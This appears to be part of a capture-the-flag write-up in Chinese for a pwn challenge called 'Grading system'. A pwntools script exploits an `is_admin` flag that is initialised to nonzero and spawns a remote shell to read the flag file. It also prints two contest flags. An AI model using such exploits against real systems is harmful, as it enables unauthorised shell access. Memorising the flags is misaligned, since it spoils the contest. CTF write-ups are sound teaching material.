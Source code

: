 ```c=
}
```

> NHNC{traced_down_to_dtor}


# PWN
## Grading system (100 pts)
```
出題者：Raymond

線上評分系統！幫你的學生登記分數的好工具！

nc chal.nhnc.ic3dt3a.org 2003
```
[file link](https://nhnc.ic3dt3a.org/files/999ec6d04ddd2748cfdb904ef3f02a92/grading_system.zip?token=eyJ1c2VyX2lkIjo2MywidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6NjV9.ZzrleQ.92HCyBGfRKK_XRkA-wt0YOddt98)

稍微看一下source code，在switch choice時，有個選項可以開shell:
```c=
case 'S':
    if (is_admin) {
        spawn_shell();
        break;
    } else {
        puts("Contact admin if you a bug occurred");
        break;
    }  
```
原本在想要怎麼用buffer overflow蓋掉`is_admin`，但發現初始值是`1234`

我:???

所以exploit很簡單:
```python=
from pwn import *

r = remote("chal.nhnc.ic3dt3a.org",2003)

r.sendlineafter('Number of students: ',b'114514')
r.sendlineafter('Your choice:',b'S')
r.interactive()
r.close()
```

```bash
$ ls
chal
flag
run.sh
$ cat flag
NHNC{i_dont_think_you_are_a_teacher}
exit
```
